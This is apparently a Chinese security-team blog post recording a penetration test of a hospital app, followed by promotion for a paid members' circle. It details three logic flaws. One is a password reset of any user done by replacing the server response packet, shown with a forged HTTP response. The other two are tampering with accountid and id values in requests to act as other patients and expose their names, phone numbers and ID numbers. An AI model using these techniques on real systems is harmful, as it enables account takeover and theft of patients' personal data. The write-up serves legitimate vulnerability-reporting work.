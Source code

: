 #  记某医院APP的一次逻辑漏洞挖掘   
 sec0nd安全   2025-05-05 12:07  
  
![httpsu.wechat.comMMNIFu0mUhIchBxkan0Zozgs=1.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRPB8LAoicALgsdtxmen9tiasaAjJImJDkVXQV86YymyOYWfj3nicwJ11Jp7ySq1HjBazRjibFW7fEbWg/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "httpsu.wechat.comMMNIFu0mUhIchBxkan0Zozgs=1.png")  
  
**扫码加内部知识圈**  
  
获取漏洞资料  
  
  
  
在某次渗透测试中，对某医院的APP进行抓包测试，主要挖掘了一些逻辑漏洞，记录  
如下：  
  
抓包APP请求  
的网站地  
址，复制到网页中打开  
  
通过“找回密码”时由于只会验证返回包内容，可以抓包将返回包替换，成功重置了任意用户的密码，这会对系统正常用户的业务处理造成影响  
  
访问风险地址，输入重置的密码，手机号、证件号，然后  
首先是短信验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLU8p6q4c2ORgR1CSKOAhYEymQmSv9PkSwGic8s7rKV7ntlFmPeAhFXdQg/640?wx_fmt=png&from=appmsg "")  
  
正确的返回包应该如下：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUJMK1MgCNOMp0E1Bd3pROkmASShGbqFu1MCTFE7FB4kfvCfkweXlrZw/640?wx_fmt=png&from=appmsg "")  
  
修改mobile为系统中存在的手机号（通过信息手机获得的已经注册的病人手机号），抓取返回包替换成下面的数据包，绕过前端验证成功进入下一步验证身份证  
  
```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Access-Control-Allow-Origin: http://xxxx
Access-Control-Allow-Headers: Origin, x-requested-with, Content-Type, Accept,X-Cookie
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET,POST,PUT,OPTIONS,DELETE
Content-Type: application/json;charset=UTF-8
Date: Sat, 22 Jan 2022 13:01:24 GMT
Connection: close
Content-Length: 125
 
{"msg":"验证码正确","code":1,"data":{"mobile":"xxxx","sign":"1ab261dcb1d4993abf7700e2bdbf583f","hascard":"true"}}
```  
  
身份证正确的返回包应该如下，同理抓取其他地方的成功返回包直接替换  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUbgbwe0jMsAJia9KB65ICRNA1XWu2gW0qhInqRfxAia4ibDT5Ka4oic57Fg/640?wx_fmt=png&from=appmsg "")  
  
绕过前端对证件号的验证判断，进入最后一步修改个人信息。发包，最后返回信息修改成功。此时对应手机号的密码被成功重置  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUVPHian6VJnqD8cHJ5f2mnMWYIYoD1b7MGos80EQ4v88oickExEFpCEYA/640?wx_fmt=png&from=appmsg "")  
  
测试在APP和网页端都能使用重置的密码成功登陆，重置对应手机账号的密码为Aa  
123456  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLU6s0ZDW6iaGHTtPMnU7hJ82XNtIt89WRk9lEvtBufibJVXjOyickGI02AQ/640?wx_fmt=png&from=appmsg "")  
  
  
此外在APP的投诉举报处，通过修改a  
ccountid  
，可以以他人的账号身份进行投诉举报  
。  
  
通过注册登录APP，对投诉举报的提交进行抓包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUuKk8CSbDssjlGLdrMRQlRLc4icZI5JUo4iaNSqBtu7ZIIW59AX9V4FMA/640?wx_fmt=png&from=appmsg "")  
  
数据包如下：  
```
POST /api/authex/hpass/cloudClinic/saveComplain?t=1 HTTP/1.1
Host: xxxx
Content-Length: 187
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Linux; Android 6.0.1; MuMu Build/V417IR; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/66.0.3359.158 Mobile Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,en-US;q=0.9
Connection: close
 
{"accountid":"149773","demandTypeCode":"1","complaintedPsnName":"1","issueOccurDatetime":"2022-01-22 01:04","complaintTypeCode":"0","complaintTitle":"1","complaintText":"1","address":"1"}
```  
  
修改a  
ccountid  
，可以以他人账号id进行投诉  
  
此时返回结果中会返回账号的手机号、姓名、身份证号码的敏感信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUNicyLv4wq3M8oATBneFicTMk1BPwKoaAGPaDDZQ0otdia2LMj65QeZH5Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUUQDzVAXXXsZ5K4fToxT1xzo3AnAUiaicSLekPJFFP5GTP4JPkYxQavnQ/640?wx_fmt=png&from=appmsg "")  
  
  
此外还存在横向越权  
  
登陆注册一个账号，在修改信息时修改  
id值就可对不同用户进行信息修改  
  
数据包如下，指定id为其他账号的id，发包之后显示修改成功  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUnxuK3w3WTYvbv99nibsRBq1UbV9m9fIKKLcOH7Oc26okkWT2eDq9Jdw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLUENxh7cFq1Ox7wO6wAzicibC56zoicxXXia8TuHrPa6PMQPmvvpOQXkoPhg/640?wx_fmt=png&from=appmsg "")  
  
修改成功后，再点击查看完善个人信息，可以看到另外一个账号的信息被修改成功，如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTrjzN23GmKgDUe1VtN2BLU1NuQpNfOCjHhDeIdDB1RhYwHOQLTVGtK1TuzRyywZsxz05wibGvecrA/640?wx_fmt=png&from=appmsg "")  
  
验证逻辑漏洞存在  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkysic7NSibpvLZNxicl3gia2AQgicckC6D0UmMgUvPYkMGUrVO11qVoiaN5UQ/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
内部圈子介绍  
  
  
我们是C4安全团队  
，师傅们别忘了  
关注和  
点赞，团队的成长离不开你们，感谢师傅们，Ciallo～(∠・ω< )⌒★~  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkh1aPOciaQusEdbRfFxibYX9MQUfcsgzH7DaD69vsgW2HgSiceoqqrongQ/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
圈子专注于更新  
SRC挖掘  
/代码审计  
相关：  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/HaJr68L1tTTex7g7gA9hIFRAorxicicgGM4NFxNNVqAaFBL5ictHcaU9zf0zmhChIgNAvRrxUSV1l2FyI6ucawvXg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
**内部圈子**  
**专栏介绍**  
  
Freebuf知识大陆内部共享资料截屏详情如下  
  
（每周保持更新）  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkzvdgfFtJotO7T8dD5ATKyyeuQibDwZoltOB3Uy5nRicGDxCEpwrlRYNg/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
**知识大陆——安全渗透感知大家族**  
****  
  
圈子券后现价   
￥39.9元  
  
如果你有兴趣加入，抓住机会不要犹豫，价格只会上涨，不会下跌  
  
圈子人数大于400人 69.9元/年  
  
圈子人数  
大于600人 119.9元/年  
  
（新人优惠券折扣  
20  
￥，扫码或者私信开头二维码即可领取更多优惠）  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJR7GIiatmMxDnlYcGJjOmibZcd7ribwq1zichkjwIczCqhZ1zpXib3VcJpMWlSLfa6qpXwfVy6hguOXdibA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
内部圈子——  
群  
友反馈--价格优惠，内容优质  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkZXuRl4vOBsaQwJK1AbsPcGMiczaPickCuIzicPiblfFjyjic3aeuzqVLLhg/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJSiao22HdM7F7OBu4zNJicKjkpxDWia5shmzQH4UialWGUCsoWYMHVpcEtUxF7RsfJaHKl9gsVWEjqAuw/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
漏洞源码圈子如下-价格固定为39.9  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJT7soFia2S7F1oP7rh8ZeAwcjib4zibjfzUaQjLqIXcx6277rE9eP9fibRBBnia5neIEwnkEibNW97ia5FOw/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic&wx_co=1 "")  
  
  
团队公开交流群  
  
QQ群和微信群都已建立，方便常用QQ或微信的师傅加入团队公开交流群，交流各类网安、实战方面的问题~  
  
（微信群①群已满200人，需要邀请加开头运营二维码才能加入，②群如下）  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJR7GIiatmMxDnlYcGJjOmibZcndbvuc3sLTpCmoy13OG7G27MS0EJyiaKAG5l6W48rzvt67Z8umUXibAQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
